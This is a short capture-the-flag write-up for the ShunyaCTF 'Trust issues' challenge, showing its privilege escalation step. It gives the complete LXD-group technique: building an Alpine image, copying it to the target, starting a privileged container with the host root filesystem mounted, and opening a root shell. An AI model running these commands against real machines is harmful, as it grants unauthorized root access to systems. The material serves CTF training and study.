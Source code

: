 Here’s `Rohmat’s` write-up for Privilege Escalation. Check it out at 

[Trust issues ShunyaCTF](https://hackctfs.blogspot.com/2024/07/trust-issues-shunyactf-shunyactf-2024.html)

Privilege Escalation

1) First we need to download and build alpine in our machine through git.

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

![5](/assets/posts/ShunyaCTF/5.png)

2 tar.gz files are created now

2) Move any of this tar.gz to target machine using `scp` or python server.

```bash
scp -P 420 alpine-v3.13-x86_64-20210218_0139.tar.gz aalu@10.10.194.93:/home/aalu/
```

![6](/assets/posts/ShunyaCTF/6.png)

3) Exploit it in target machine to get root shell.

3.1) Add it as an image to LXD

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz -alias myimage
```

3.2) Check list of images

![7](/assets/posts/ShunyaCTF/7.png)

3.3) To get privileged shell

```bash
     lxc init myimage ignite -c security.privileged=true
     lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
     lxc start ignite
     lxc exec ignite /bin/sh
     id
```
